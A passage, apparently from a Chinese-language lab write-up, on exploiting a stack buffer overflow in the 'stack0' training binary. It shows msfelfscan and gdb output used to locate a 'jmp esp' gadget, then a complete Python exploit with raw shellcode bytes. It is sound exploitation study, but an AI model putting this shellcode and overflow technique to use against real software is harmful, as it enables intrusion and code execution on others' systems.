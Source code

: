 ```
buf += "\xba\x41\x3e\x34\x50\x90\xe1\x2c\xa4\xca\x12\xb5\xee"
buf += "\x65\x64\x0c\xec\x89\x71\x39\x31\x21\x7a\xaf\xe0\x7a"
buf += "\xf4\xc9\x69\x6b\x5c\x7f\x44\xd3\x6f\x7a\xc1\xbd\x35"
buf += "\x8b\xf4\xbe\x2c"
-------------------------end--------------------------

```

其中jmp esp的地址由msfelfscan找出，win下为msfpescan

`msfelfscan -j esp /root/桌面/stack0`

结果发现由于stack0的代码比较简单，里面没有jmp esp的指令，于是通过info shared来找出stack0中调用系统函数时用到的so文件，然后从so文件里找出jmp esp的地址,如下：

```
info shared
------------output:----------------
From        To          Syms Read   Shared Object Library
0xf7fdd860  0xf7ff50fc  Yes (*)     /lib/ld-linux.so.2     #0xf7fdd860为该动态链接库的内存加载基址
                        No          linux-gate.so.1
0xf7e14420  0xf7f44c0e  Yes (*)     /lib/i386-linux-gnu/i686/cmov/libc.so.6
(*): Shared library is missing debugging information.
--------------end------------------

```

然后执行`msfelfscan -j esp /lib/ld-linux.so.2`

```
----------output:-------------
[/lib/ld-linux.so.2]
0x0001813b jmp esp
0x0001bfe7 jmp esp
0x0001c24f jmp esp
------------end---------------

```

找到一个jmp esp地址为：0x0001813b,但是这只是偏移量

真正的地址为：0xf7fdd860+0x0001813b=0xf7ff599b

于是输入链为：

`"a"*80+'\x9b\x59\xff\xf7'+shellcode`

用python代码实现exploit.py：

```
------------exploit.py----------------
import os
import sys
buf =  ""
buf += "\xba\x31\x6f\x3c\x05\xd9\xca\xd9\x74\x24\xf4\x5d\x33"
buf += "\xc9\xb1\x12\x31\x55\x12\x83\xc5\x04\x03\x64\x61\xde"
buf += "\xf0\xce\x4c\xe1\x91\xc7\xf6\x84\xd0\xc7\x4e\x3e\xca"
buf += "\xaa\x7f\x89\x99\x16\xc1\x53\xec\x51\xce\x66\x46\x0d"
buf += "\xba\x41\x3e\x34\x50\x90\xe1\x2c\xa4\xca\x12\xb5\xee"
buf += "\x65\x64\x0c\xec\x89\x71\x39\x31\x21\x7a\xaf\xe0\x7a"
buf += "\xf4\xc9\x69\x6b\x5c\x7f\x44\xd3\x6f\x7a\xc1\xbd\x35"
buf += "\x8b\xf4\xbe\x2c"

jmp_esp="\x9b\x59\xff\xf7"
#print jmp_esp
input="a"*80+jmp_esp+buf
#print input
os.system("echo '%s' | ./stack0" % input)
---------------end--------------------

```